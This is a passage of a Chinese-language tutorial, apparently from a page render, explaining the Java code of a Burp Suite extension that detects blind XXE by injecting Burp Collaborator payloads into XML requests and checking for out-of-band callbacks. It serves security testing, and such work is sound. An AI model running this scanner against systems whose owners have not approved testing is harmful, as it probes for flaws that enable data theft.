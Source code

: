 ```plain
                issues.add(new CustomScanIssue(attackRequestResponse.getHttpService(),
                        helpers.analyzeRequest(attackRequestResponse).getUrl(),
                        new IHttpRequestResponse[]{callbacks.applyMarkers(attackRequestResponse, null, null)},
                        attackDetails, ISSUE_TYPE, ISSUE_NAME, SEVERITY, CONFIDENCE,
                        "", "", ""));
            }
        }
        return issues.isEmpty() ? null : issues;
    }
}
```

52-53 行代码实现此接口并使用了 generatePayload 方法来获取一个 payload：

```plain
IBurpCollaboratorClientContext collaboratorContext = callbacks.createBurpCollaboratorClientContext();
String collaboratorPayload = collaboratorContext.generatePayload(true);
```

56-65 行为使用生成的 payload 替换 xxe 中的标志位后发起请求：

```plain
for (String xxe : XXEPayloads) {
            xxe = xxe.replace("{collaboratorPayload}", collaboratorPayload);
            List<String> headers = helpers.analyzeRequest(baseRequestResponse).getHeaders();
            headers.set(0, headers.get(0).replace("GET", "POST"));
            headers.removeIf(header -> header != null && header.toLowerCase().startsWith("content-type:"));
            headers.add("Content-type: application/xml");

            byte[] attackBody = helpers.buildHttpMessage(headers, helpers.stringToBytes(xxe));
            IHttpRequestResponse attackRequestResponse = callbacks.makeHttpRequest(baseRequestResponse.getHttpService(), attackBody);
            List<IBurpCollaboratorInteraction> collaboratorInteractions = collaboratorContext.fetchCollaboratorInteractionsFor(collaboratorPayload);
```

最后一行获取了解析结果，即是否有服务器向 payload 所处地址发起请求。

并在 67-69 行代码处判断了是否存在 xxe 漏洞：

```plain
if (attackRequestResponse != null && attackRequestResponse.getResponse() != null
                    && collaboratorInteractions != null
                    && (!collaboratorInteractions.isEmpty())
```

重点：`collaboratorInteractions!=null&&(!collaboratorInteractions.isEmpty())`。

此行代码用于判断是否存在请求。

通过以上三个步骤即实现了一个简单的 blind xxe scanner。

梳理一下具体步骤：
